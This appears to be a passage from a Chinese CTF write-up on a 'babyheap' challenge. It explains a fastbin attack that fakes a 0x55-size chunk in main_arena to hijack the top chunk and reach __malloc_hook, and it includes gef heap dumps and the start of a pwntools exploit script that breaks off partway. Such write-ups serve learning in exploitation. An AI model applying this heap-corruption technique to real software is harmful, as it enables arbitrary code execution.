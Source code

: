 所以main_arena + 88处存储的是top chunk的地址，尝试在这个地址前找一个合适的偏移。但是前面都是fastbin数组存储的fd指针，如果fastbin链表中没有chunk的话，就不可能有合适的偏移地址。所以要首先向fastbin 填充一些chunk的地址，这里有个trick，一般来说堆地址是0x55开头的（有时候是0x56），所以我们用fastbin在main_arena占位后，找到一个合适的偏移，使得size为0x55(0x56)，然后malloc(0x40)即可。这里是根据`(0x55 >> 4) - 2 =  4`计算得到chunk在fastbin中的下标。

```
gef➤  x/32gx 0x7f4b01358b78-0x58 + 0x20 + 5
0x7f4b01358b45 <main_arena+37>:	0xad249d50e0000000	0x0000000000000055
0x7f4b01358b55 <main_arena+53>:	0x0000000000000000	0x0000000000000000
0x7f4b01358b65 <main_arena+69>:	0x0000000000000000	0x0000000000000000
0x7f4b01358b75 <main_arena+85>:	0xad249d5140000000	0xad249d5070000055
0x7f4b01358b85 <main_arena+101>:	0x4b01358b78000055	0x4b01358b7800007f

```

可以看到，当分配到main_arena+0x20+5时，size为0x55，然后就可以覆盖top chunk或者last remainder了。

```
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────── Fastbins for arena 0x7fedf8a74b20 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40]  ←  Chunk(addr=0x55f94d040080, size=0x50, flags=PREV_INUSE)  ←  Chunk(addr=0x7fedf8a74b55, size=0x50, flags=PREV_INUSE|NON_MAIN_ARENA) 
Fastbins[idx=4, size=0x50]  ←  Chunk(addr=0x55f94d0400f0, size=0x60, flags=PREV_INUSE) 
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00

```

​	当成功修改top指针后，再次malloc，会从top指针处开始任意分配，这时分配到malloc_hook之前即可，但仍然需要绕过对size的检查，所以我们令top chunk指向main_arena - 0x33的地址。

​	

​	但是，该题利用成功率不是百分之百，有一定几率失败。

### exp

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./babyheap")
p = process("./babyheap")

def allocate(size):
	p.recvuntil("Command: ")
	p.sendline("1")
	p.recvuntil("Size: ")
	p.sendline(str(size))

def update(index, size, content):
	p.recvuntil("Command: ")
	p.sendline("2")
	p.recvuntil("Index: ")
	p.sendline(str(index))
	p.recvuntil("Size: ")
	p.sendline(str(size))
	p.recvuntil("Content: ")
	p.send(content)

def view(index):
	p.recvuntil("Command: ")
```